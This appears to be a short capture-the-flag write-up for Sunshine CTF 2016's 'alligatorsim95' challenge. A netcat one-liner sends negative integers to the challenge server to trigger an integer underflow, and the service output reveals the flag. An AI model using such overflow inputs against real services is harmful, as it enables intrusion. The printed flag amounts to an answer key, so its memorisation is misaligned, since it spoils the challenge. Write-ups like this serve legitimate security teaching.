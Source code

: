 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - alligatorsim95"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - alligatorsim95"
---
```


➜  Desktop python -c "print -1337; print -0xffffffff; print -1" | nc 4.31.182.242 9000 # integer underflow
              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 0 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147483648 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
-> dang 2147483647 is a lotta eggs
-> as a god among gators here is ur crown:
sun{int_0verflow_i5_a_g0od_st4rt}
